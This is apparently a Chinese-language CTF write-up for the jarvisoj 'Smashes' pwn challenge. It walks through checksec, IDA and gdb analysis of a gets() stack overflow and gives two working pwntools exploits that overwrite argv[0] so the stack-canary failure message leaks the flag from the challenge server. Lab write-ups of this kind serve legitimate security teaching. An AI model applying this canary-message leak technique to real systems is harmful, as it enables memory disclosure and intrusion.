 ```yaml
---
layout:     post
title:      jarvisoj Smashes
author:     wooy0ung
tags: 		  linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Problem Description:
Smashes, try your best to smash!!!

Download:
https://dn.jarvisoj.com/challengefiles/smashes.44838f6edd4408a53feb2e2bbfe5b229

Address:
nc pwn.jarvisoj.com 9877
```
<!-- more -->


### 0x01 file命令查看文件是64位elf格式

```
file smashes
```

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-smashes/0x00.png)

### 0x02 checksec之，发现开了Canary

```
checksec smashes
```

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-smashes/0x01.png)

### 0x03 在kali linux 2.0中执行程序
```
chmod a+x ./smashes
./smashes
```

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-smashes/0x02.png)

### 0x04 执行文件放到IDA中分析

_IO_gets函数存在溢出漏洞

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-smashes/0x03.png)

计算argv[0]到缓冲区的距离，0x218个字节

```
gdb ./smashes
b *0x0040080e
find /root
find 0x7fffffffe673
distance $rsp 0x7fffffffe3d8
```

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-smashes/0x04.png)

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-smashes/0x05.png)

查找发现flag存在0x400d20这个地址

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-smashes/0x06.png)

观察__libc_message源码，需要将LIBC_FATAL_STDERR置为非空，才能收到错误信息，否则会被redirect到_PATH_TTY

```
void __libc_message (int do_abort, const char *fmt, ...)
{
  va_list ap; 
  int fd = -1; 
  va_start (ap, fmt);
  /* Open a descriptor for /dev/tty unless the user explicitly
     requests errors on standard error.  */
  const char *on_2 = __libc_secure_getenv ("LIBC_FATAL_STDERR_");
  if (on_2 == NULL || *on_2 == '\0')
    fd = open_not_cancel_2 (_PATH_TTY, O_RDWR | O_NOCTTY | O_NDELAY);
  if (fd == -1) 
    fd = STDERR_FILENO;
  /*......*/
}
```


### 0x05 根据以上信息写成exploit

稳定版的exploit

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *
old_flag_addr = 0x600d20
new_flag_addr = 0x400d20
# Io = process('./smashes')
Io = remote('pwn.jarvisoj.com', 9877)
Io.recvuntil("name?")
payload = "a"*0x218 + p64(new_flag_addr) 
payload += p64(0) + p64(old_flag_addr)
Io.sendline(payload)
Io.recvuntil("flag: ")
env = "LIBC_FATAL_STDERR=1"
Io.sendline(env)
flag = Io.recv()
print flag
```

强行将一大片地址填充为flag的地址，不一定每次都能得到flag
```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *
context.log_level = 'debug'
# Io = process('./smashes')
Io = remote('pwn.jarvisoj.com', 9877)
Io.recv()
Io.sendline(p64(0x0400d20)*300)
Io.recv()
Io.sendline()
Io.recv()
```

得到flag

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-smashes/0x07.png)
